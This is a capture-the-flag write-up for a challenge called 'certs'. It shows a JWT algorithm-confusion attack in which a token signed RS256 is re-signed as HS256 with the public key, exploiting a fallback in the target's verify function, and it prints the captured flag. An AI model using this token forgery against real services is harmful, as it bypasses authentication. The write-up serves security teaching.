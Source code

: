 # certs
## Description
https://certs.chall.pwnoh.io
## Author
mbund
## Resources
`export.zip` - source code
## Solution
0. By auditing the source code, we can find that program use `jwt` and one of the point of `jwt hack` is to replace the `alg` value in order to pass `verify` function.
1. The fallback of `verify` function will let it pass `publicKey` in text to verify.
    ```javascript
        try {
            const result = await jose.jwtVerify(
                token,
                await jose.importSPKI(publicKey, "RS256")
            );
            return result.payload as any;
            } catch (e) {
            try {
                const result = await jose.jwtVerify(
                token,
                new TextEncoder().encode(publicKey)
                );
                return result.payload as any;
            } catch (e) {}
            }
    ```
2. Therefore since we already have the `publicKey` which was used to verify signiture in `RS256`, we can just simply change the `RS256` in `alg` to `HS256` (the symmatric encryption version of `RS256`) and encrypt it by `publicKey` to bypass the verification.
3. Comment out the first-place check under `/api/certify`.
    ```javascript
        // if (place === 1) {
        //   return new Response(
        //     "The grand winner must be manually signed by an admin.",
        //     { status: 401 }
        //   );
        // }

    ```
4. Change the code under `/api/certify` from `RS256` to `HS256`:
    ```javascript
    const token = await new jose.SignJWT({ team, place })
            .setProtectedHeader({ alg: "HS256" })
            .sign(new TextEncoder().encode(publicKey));
    ```
4. `docker-compose up` the container on local, and generate a new cert PDF encrypted by `HS256` and `publicKey`.
5. Done!
6. 💯 Is this the reason you're in first place? bctf{47_l3457_17_w45n7_4n_4c7u4l_pdf_ch4ll3n63}